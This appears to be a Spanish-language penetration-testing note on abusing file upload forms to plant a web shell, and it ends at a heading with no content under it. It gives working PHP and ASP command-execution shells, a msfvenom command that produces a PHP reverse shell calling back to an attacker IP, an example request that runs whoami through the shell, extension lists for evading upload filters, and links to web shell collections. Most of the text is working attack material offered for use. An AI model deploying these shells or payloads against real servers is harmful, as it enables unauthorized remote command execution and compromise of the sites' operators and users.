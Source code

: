 ## CARGA DE UNA WEB SHELL


>[!note]
>A la hora de intentar vulnerar una carga de archivos, primero cargar un archivo correctamente y capturar con Burpsuite para ver como lo manda, despues adaptamos nuestro ataque sobre ese request valido.
 
 Es importante saber el tipo de tecnologia que utiliza la pagina web, esto se puede hacer con **wappalyzer** o **whatweb**, esto para saber que lenguaje interpreta y poder buscar una web shell en ese lenguaje. Si la carga de archivos es muy pobre en protecciones y no valida la extension del archivo, podemos cargar, por ejemplo y si es el caso, un archivo **.php** malicioso.
 
 ```php
<?php  
	system($_GET["cmd"])
?>
 ```
o podemos generar con msfvenom:

```bash
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```

en .NET:

```asp
<% eval request('cmd') %>
```

 este simple archivo permite la ejecucion remota de comandos, se saber o ver la imagen donde se almacena, podemos invocarla y pasarle ese parametro para que lo ejecute como un comando de sistema:
 
 ```bash
 http://10.1.1.10/uploads/shell.php?cmd=whoami
 ```
 
 puede usar la [webshell de monkey pentester](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)
 
 **Otras extensiones útiles segun la tecnologia:**

-   **PHP**: _.php_, _.php2_, _.php3_, ._php4_, ._php5_, ._php6_, ._php7_, .phps, ._phps_, ._pht_, ._phtm, .phtml_, ._pgif_, _.shtml, .htaccess, .phar, .inc_
-   **ASP**: _.asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml_
-   **Jsp:** _.jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action_
-   **Coldfusion:** _.cfm, .cfml, .cfc, .dbm_
-   **Flash**: _.swf_
-   **Perl**: _.pl, .cgi_
-   **Erlang Yaws Web Server**: _.yaws_

**NOTA: JUGAR CON EL INTRUDER Y ESTAS EXTENSIONES**

**webshells para varios lenguajes:**

- [https://github.com/xl7dev/WebShell](https://github.com/xl7dev/WebShell)

## BYPASS CLIENT SIDE PROTECTION
